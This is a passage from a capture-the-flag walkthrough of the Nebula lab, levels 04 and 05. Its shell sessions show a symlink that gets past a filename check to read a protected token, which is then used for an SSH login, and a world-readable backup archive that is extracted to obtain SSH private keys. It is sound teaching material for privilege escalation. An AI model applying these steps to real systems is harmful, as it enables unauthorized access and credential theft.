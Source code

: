 So we can't access token. Looking at the code there's a check to see if the file is named `token`. We can't simply copy the _token_ file because it's read only by the flag user. So there's only one thing for it: symlinks

Then get the flag (some ssh output cut for brevity)

```sourceCode
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/myfile
level04@nebula:/home/flag04$ ./flag04 /tmp/myfile
06508b5e-8909-4f38-b630-fdb148a848a2
level04@nebula:/home/flag04$ ssh flag04@localhost

flag04@localhost's password:

flag04@nebula:~$ getflag
You have successfully executed getflag on a target account
```

So the output of the command is a _token_ which is the term used for the password of the flag's user. Using this to logon as _flag04_ and run `getflag`.

## Level 05

> Check the flag05 home directory. You are looking for weak directory permissions

Ok, let's do that

```sourceCode
level05@nebula:~$ cd ~flag05
level05@nebula:/home/flag05$ ls -la
total 5
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
drwxr-xr-x 1 root   root     420 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
```

That _backup_ directory looks like our target

```sourceCode
level05@nebula:/home/flag05$ cd .backup/
level05@nebula:/home/flag05/.backup$ ls -la
total 2
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz
level05@nebula:/home/flag05/.backup$ tar xvzf backup-19072011.tgz -C /tmp
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```
